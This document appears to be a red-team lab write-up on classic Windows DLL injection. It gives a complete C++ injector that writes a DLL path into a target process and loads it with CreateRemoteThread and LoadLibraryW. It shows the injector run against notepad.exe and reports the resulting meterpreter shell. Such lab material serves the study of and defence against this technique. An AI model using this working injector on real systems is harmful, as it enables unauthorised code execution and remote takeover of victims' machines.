



# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution


```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```


Compiling the above code and executing it with a supplied argument of `4892` which is a PID of the notepad.exe process on the victim system:


```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```


After the DLL is successfully injected, the attacker receives a meterpreter session from the injected process and its privileges:







## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:





## References






